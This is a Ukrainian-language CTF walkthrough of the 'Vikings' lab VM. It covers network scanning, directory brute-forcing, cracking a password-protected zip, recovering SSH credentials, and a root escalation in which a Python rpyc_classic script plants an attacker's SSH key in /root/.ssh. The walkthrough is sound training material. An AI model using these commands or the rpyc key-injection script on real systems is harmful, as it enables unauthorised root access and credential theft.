### **Крок 1: Розвідка мережі та сканування портів (Enumeration)**
```sh
netdiscover -r 192.168.160.0/24
```


```sh
nmap -sC -sV -Pn -p- 192.168.160.168
```
**Результат**:  
- **Port 22**: SSH (OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)).
- **Port 80**: HTTP (Apache httpd 2.4.29).  



---

### **Крок 2: Веб-розвідка та пошук прихованих директорій**
Відкриваємо в браузері http://192.168.160.168.
```plaintext
http://192.168.160.168
```


Відкриваємо наступне посилання та вже отримуємо зміст сайту:



Досліджуємо структури директорій:
```sh
gobuster dir -r -u http://192.168.160.168/site/ -w /usr/share/dirb/wordlists/common.txt -x txt,php,html -o dir-common.log
```


**Результат**:
З отриманого списка є кілька цікавих файлів.

**war.txt**



Змінимо адресний рядок в браузері, та отримуємонаступний результат:



Спробуємо зрозуміти, що з цим робити. Дуже часто це може бути base64, тому одразу перевіримо:
```sh
curl http://192.168.160.168/site/war-is-over/ | base64 -d > output
file output
```


Таким чином отримуємо, що це в нас zip-архив, то маємо передивитись його зміст:
```sh
unzip output
```
Отримуємо результат: 



Тобто, або версія стара, або архив з паролем. 
Перевіряємо наявність паролю або CLI: 7z або GUI: xdg-open



Досліджуємо далі
```plaintext
http://192.168.160.168/site/images/
```


З'ясували, що архив з паролем, тобто наступним кроком спробуємо отримати пароль:
```sh
zip2john output > hash
john hash –wordlist=/usr/share/wordlists/rockyou.txt
```
**Результат**:
Отримали пароль `ragnarok123`


Розпаковуємо архів. Всередині знайдемо зображення


Перевіряємо на вміст додаткової інформації. 
```sh
binwalk -e king.jpg
```


**Результат**:
`name: user`


**Результат**:
```plaintext
User floki
Password f@m0usboatbuilde7
```

---

### **Крок 3: Початковий доступ (User: floki)**

Спроба встановити ssh-з'єднання:
```sh
ssh floki@192.168.160.168
```


Переглядаємо вміст директорії
```sh
ls -lah
```

```sh
cat boat
cat readme.txt
```


Необхідно вирахувати послідовність Коллатца для певного числа, вказаного в підказці (наприклад, 29-те число Коллатца від заданого старту).
Виконаємо Python скрипт:
```plaintext
n = 109
str_n = str(n)

while n != 1:
  if n % 2 == 1:
    n = 3 * n + 1
  else:
    n = int(n/2)
  if n <= 255:
    str_n += ' ' + str(n)
    
print(str_n)
```
Запускаємо скрипт
```sh
python collatz.py
```
**Результат**:
109 164 82 41 124 62 31 94 47 142 71 214 107 161 242 121 182 91 137 206 103 155 233 175 167 251 244 122 61 184 92 46 23 70 35 106 53 160 80 40 20 10 5 16 8 4 2 1



Потрібно перетворити послідовність отриманих чисел у рядок друкованих **ASCII** символів, для чого скористуємось **CyberChef**

**Результат**:
```plaintext
mR)|>^/Gky[gz=\.F#j5P(
```
Ймовірно, він належить іншому обліковому запису. Для швидкої перевірки переглянемо файл `/etc/passwd`, щоб побачити інформацію про користувачів. Робимо логін в користувача `ragnar`, якого шукає `floki`



**Результат**:
```plaintext
ragnar:x:1001:1001::/home/ragnar:/bin/sh
```
Робимо баш-шелл:
```sh
SHELL=/bin/bash script -q /dev/null
```


Йдемо в домашню директорію Рагнара, передивляємось вміст
```sh
cd ~
pwd
ls -lah
```


**Результат**:
Цікавий файл **user.txt**.

Виводимо вміст файла
```sh
cat  user.txt
```
```plaintext
4bf930187d0149a9e4374a4e823f867d
```


Перевіряємо **.profile**
```sh
cat .profile
```


Виявилося, що там запускається Python-файл **rpyc_classic.py**. Аналіз відкритих джерел показав, що **rpyc_classic** є найбільш небезпечним режимом **RPC**, оскільки дозволяє виконувати довільні команди з правами користувача **root**.
Готуємо процедуру екплуатації цієї вразливості. Спочатку потрібно перенести публічний ключ **Kali** на машину-жертву та перейменувати його у **authorized_keys**.
Створюємо ключі
```sh
ssh-keygen
```


Стартувати веб-сервер на Kali
```sh
sudo systemctl start apache2
systemctl status apache2
```


розташувати публічний ключ на вебсервері:
```sh
sudo cp .ssh/id_ed25519.pub /var/www/html
```
Переконуємось, що знаходимось у домашній директорії **ragnar**:


Підтягуємо публічний ключ:
```sh
wget http://192.168.160.198/id_ed25519.pub
```

```sh
mv id_ed25519.pub  authorized_keys
```
Створюємо скрипт у директорії /tmp Та запускаємо його:
```plaintext
import rpyc
def getshell():
    import os
    os.system("mkdir -p /root/.ssh; chmod 700 /root/.ssh; cp /home/ragnar/authorized_keys /root/.ssh/authorized_keys") 
conn = rpyc.classic.connect("localhost")
fn = conn.teleport(getshell)
fn()
```
```sh
cd /tmp
nano shell.py
python3 shell.py
```
Користуємось ссш клієнтом для з'єднання з **ВМ Вікінг** від рута:
```sh
ssh -i /home/kali/.ssh/id_ed25519 root@192.168.160.168
```


Отримали доступ root, можемо переглянути вміст домашньої директорії. Знаходимло файл **root.txt**, дивимось вміст.


---

---
